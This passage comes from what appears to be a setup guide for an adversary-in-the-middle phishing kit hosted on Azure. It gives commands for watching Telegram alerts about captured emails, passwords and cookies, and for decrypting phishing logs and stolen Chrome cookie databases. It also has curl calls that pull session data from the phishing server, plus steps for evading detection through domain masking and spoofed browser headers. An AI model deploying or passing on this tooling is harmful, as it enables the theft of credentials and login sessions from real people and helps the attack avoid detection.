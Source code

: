 
## 📊 STEP 6: MONITORING & INTELLIGENCE

### **6.1 Real-Time Telegram Notifications**
```bash
# Monitor your Telegram bot for:
# - New session starts
# - Email captures
# - Password submissions
# - Cookie extractions
# - Error notifications
```

### **6.2 Log Analysis**
```bash
# Decrypt EvilWorker logs
node decrypt_log_file.js phishing_logs/domain__timestamp

# Analyze Cookie-Monster output
python3 decrypt.py -k "key" -o cookies -f ChromeCookies.db

# Generate CuddlePhish format
python3 decrypt.py -k "key" -o cuddlephish -f ChromeCookies.db
```

### **6.3 Session Intelligence**
```bash
# View active sessions
curl -H "x-functions-key: YOUR_FUNCTION_KEY" \
  "https://azureaitm-phishing-demo-1755253259.azurewebsites.net/__stats"

# Get session details
curl -H "x-functions-key: YOUR_FUNCTION_KEY" \
  "https://azureaitm-phishing-demo-1755253259.azurewebsites.net/__session/{sessionId}"
```

---

## 🛡️ STEP 7: EVASION & STEALTH

### **7.1 Domain Masking**
```bash
# Use Cloudflare Workers for additional masking
# Deploy cloudflare-worker.js to Cloudflare

# Use Vercel for frontend masking
# Deploy to Vercel with custom domain
```

### **7.2 Traffic Normalization**
```javascript
// Add realistic browser headers
headers['user-agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36';
headers['accept-encoding'] = 'gzip, deflate, br';
headers['accept-language'] = 'en-US,en;q=0.9';
headers['sec-ch-ua'] = '"Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"';
```
